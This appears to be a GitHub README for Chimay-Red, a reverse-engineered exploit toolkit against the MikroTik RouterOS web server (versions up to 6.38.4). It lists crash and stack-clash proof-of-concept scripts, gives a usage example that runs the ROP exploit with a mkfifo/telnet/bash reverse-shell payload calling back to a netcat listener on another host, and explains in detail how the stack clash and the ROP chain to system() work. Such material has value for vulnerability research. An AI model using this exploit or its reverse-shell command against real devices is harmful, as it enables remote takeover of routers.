 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

## StackClashROPSystem  
Stack clash exploit using two threads  with ROP chain to run bash commands  

For a reverse shell:  
```
$ nc -l -p 1234
$ ./StackClashROPsystem.py 192.168.8.1 www_binary "mkfifo /tmp/f; /bin/telnet 192.168.8.5 1234 < /tmp/f | /bin/bash 
 > /tmp/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

(As the ROP is dynamically created, you have to extract the www binary from the RouterOS firmware, check that the running version is the same)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

The ROP chain that executes bash commands is using "dlsym" (present in the PLT) to find the address of "system".  
Once we have the address of system we construct the bash string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to the address of system passing as argument the address of the created bash string.  
